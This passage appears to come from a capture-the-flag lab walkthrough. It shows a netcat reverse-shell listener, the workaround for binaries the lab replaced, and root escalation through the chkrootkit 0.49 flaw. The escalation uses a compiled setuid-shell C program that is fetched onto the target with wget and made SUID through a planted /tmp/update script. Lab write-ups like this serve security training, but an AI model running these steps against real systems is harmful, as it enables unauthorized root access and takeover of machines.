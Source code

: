 ```console
root@kali:~# nc -lvvp 443
listening on [any] 443 ...
192.168.56.129: inverse host lookup failed: Unknown host
connect to [192.168.56.100] from (UNKNOWN) [192.168.56.129] 44952
haha! FUKU! Only root can run that command.
 21:58:13 up 1 day, 23:59,  0 users,  load average: 0.05, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
haha! FUKU! Only root can run that command.
/bin/sh: 0: can't access tty; job control turned off
$
```
The first thing I noticed was the "haha! FUKU! Only root can run that command." message instead of the results of "id" command. After a bit of digging I found out that several binaries on the system had been replaced by a shell script which prints that message. This was more of an annoyance than a real deterrent for me as I was able to use busybox for the command that had been replaced or using other methods. After a bit of looking around it was identified that server was running chkrootkit version 0.49 as root at a regular interval which was vulnerable to a (privledge escalation vulnerability)[https://www.exploit-db.com/exploits/33899/]. I was able to gain root by writing a small script name 'update' to /tmp which would chown a small executable as root:root and set the suid bit. All the executable does is set uid and gid to 0 and spawn a bash shell. On the server gcc has been replaced by a shell script, so I had to compile it on my Kali vm.
```c
root@kali:~p# cat setuid.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
```
One thing that tripped me up was that I was compiling a 64bit binary when the server is running a 32bit operating system. On a Kali machine you'll have to install libc6-dev-i386 which will install the 32 libc libraries and compile the binary using ``gcc -m32 setuid.c -o setuid``
```console
$ wget http://192.168.56.100/setuid -O setuid
--2016-05-03 22:35:21--  http://192.168.56.100/setuid
Connecting to 192.168.56.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5136 (5.0K) [application/octet-stream]
Saving to: 'setuid'

     0K .....                                                 100% 1.65G=0s

2016-05-03 22:35:21 (1.65 GB/s) - 'setuid' saved [5136/5136]
$ echo chown root:root /tmp/setuid > /tmp/update
$ echo chmod 4755 /tmp/setuid >> /tmp/update
$ cat update
chown root:root /tmp/setuid
chmod 4755 /tmp/setuid
```
After a few minutes of waiting you'll notice that the binary is owned by root and that the SUID binary is set.
```console
$ ls -l
total 44
-rw-rw-rw- 1 www-data www-data     0 May  3 21:51 
-rwsr-xr-x 1 root     root      5136 May  3 22:34 setuid
drwx------ 3 root     root      4096 May  1 21:58 systemd-private-36d2f6755c93455d8c9f6bea28c8fa80-colord.service-6TrDJg
drwx------ 3 root     root      4096 May  1 21:58 systemd-private-36d2f6755c93455d8c9f6bea28c8fa80-rtkit-daemon.service-BrVEVI
drwx------ 3 root     root      4096 May  1 21:58 systemd-private-36d2f6755c93455d8c9f6bea28c8fa80-systemd-timesyncd.service-ZKyQrJ
```